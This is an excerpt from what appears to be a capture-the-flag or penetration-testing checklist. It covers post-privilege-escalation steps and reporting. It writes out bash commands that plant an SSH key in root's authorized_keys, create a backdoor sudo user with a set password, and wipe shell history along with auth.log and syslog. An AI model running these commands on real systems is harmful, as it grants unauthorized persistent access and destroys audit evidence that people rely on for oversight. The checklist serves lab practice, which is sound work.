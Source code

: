 
## ☑️ Phase 15: Post-Privilege Escalation

### Maintain Access
- [ ] **Add SSH key**
  ```bash
  mkdir /root/.ssh 2>/dev/null
  echo 'your_public_key' >> /root/.ssh/authorized_keys
  chmod 600 /root/.ssh/authorized_keys
  chmod 700 /root/.ssh
  ```
- [ ] **Create backup user**
  ```bash
  useradd -m backup -s /bin/bash
  echo 'backup:password' | chpasswd
  usermod -aG sudo backup
  ```

### Flag Collection
- [ ] **Find flags**
  ```bash
  find / -name "user.txt" 2>/dev/null
  find / -name "root.txt" 2>/dev/null
  find / -name "flag.txt" 2>/dev/null
  ls -la /root/
  ls -la /home/*/Desktop/
  ```

### Evidence Cleanup (if required)
- [ ] **Clear history**
  ```bash
  history -c
  > ~/.bash_history
  > /var/log/auth.log
  > /var/log/syslog
  ```
- [ ] **Remove files**
  ```bash
  rm /tmp/linpeas.sh
  rm /tmp/LinEnum.sh
  rm /tmp/pspy64
  ```

---

## ☑️ Phase 16: Documentation & Reporting

### Document Findings
- [ ] **Save exploitation path**
  ```bash
  echo "Privilege escalation method: [METHOD]" > /tmp/notes.txt
  echo "Vulnerable service/file: [PATH]" >> /tmp/notes.txt
  echo "Commands used: [COMMANDS]" >> /tmp/notes.txt
  ```
- [ ] **Take screenshots**
  - [ ] Initial shell
  - [ ] Enumeration results
  - [ ] Exploit execution
  - [ ] Root shell
  - [ ] Flag contents

---